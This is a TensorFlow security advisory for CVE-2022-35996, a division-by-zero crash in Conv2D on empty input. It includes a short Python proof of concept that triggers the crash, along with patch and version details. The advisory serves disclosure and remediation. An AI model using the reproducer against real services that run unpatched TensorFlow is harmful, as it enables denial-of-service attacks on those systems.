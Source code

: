 ## TFSA-2022-124: Floating point exception in `Conv2D`

### CVE Number
CVE-2022-35996

### Impact
If `Conv2D` is given empty `input` and the `filter` and `padding` sizes are valid, the output is all-zeros. This causes division-by-zero floating point exceptions that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np
with tf.device("CPU"): # also can be triggerred on GPU
   input = np.ones([1, 0, 2, 1])
   filter = np.ones([1, 1, 1, 1])
   strides = ([1, 1, 1, 1])
   padding = "EXPLICIT"
   explicit_paddings = [0 , 0, 1, 1, 1, 1, 0, 0]
   data_format = "NHWC"
   res = tf.raw_ops.Conv2D(
       input=input,
       filter=filter,
       strides=strides,
       padding=padding,
        explicit_paddings=explicit_paddings,
       data_format=data_format,
  )
```

### Patches
We have patched the issue in GitHub commit [611d80db29dd7b0cfb755772c69d60ae5bca05f9](https://github.com/tensorflow/tensorflow/commit/611d80db29dd7b0cfb755772c69d60ae5bca05f9).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.

